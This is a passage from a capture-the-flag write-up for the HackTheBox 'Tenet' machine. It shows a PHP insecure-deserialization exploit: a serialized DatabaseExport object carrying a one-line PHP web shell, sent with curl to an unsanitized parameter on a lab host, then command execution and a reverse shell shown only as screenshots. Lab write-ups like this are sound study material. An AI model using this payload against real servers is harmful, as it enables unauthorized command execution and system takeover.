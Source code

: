 - If we execute it we get the object `serealized`.

```bash
❯ php serialize.php 2>/dev/null; echo
O:14:"DatabaseExport":2:{s:9:"user_file";s:6:"xd.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}
```

- We are going to send it all the data through the `arepo` parameter which is not sanitized and will interpret what we pass it since it is going to be derealized.

```bash
❯ curl -s -X GET -G "http://10.10.10.223/sator.php" --data-urlencode 'arepo=O:14:"DatabaseExport":2:{s:9:"user_file";s:6:"xd.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}'; echo
[+] Grabbing users from text file <br>
[] Database updated <br>[] Database updated <br>
```

- We see that the `xd.php` file that we defined in the `script` was created correctly.

<p align="center">
<img src="/assets/hackthebox/img/machines/medium/tenet/rev.png">
</p>

- And now we can execute commands.

<p align="center">
<img src="/assets/hackthebox/img/machines/medium/tenet/rev2.png">
</p>

- Now we gain access to the system by sending us a `reverse shell`..

<p align="center">
<img src="/assets/hackthebox/img/machines/medium/tenet/rev3.png">
</p>
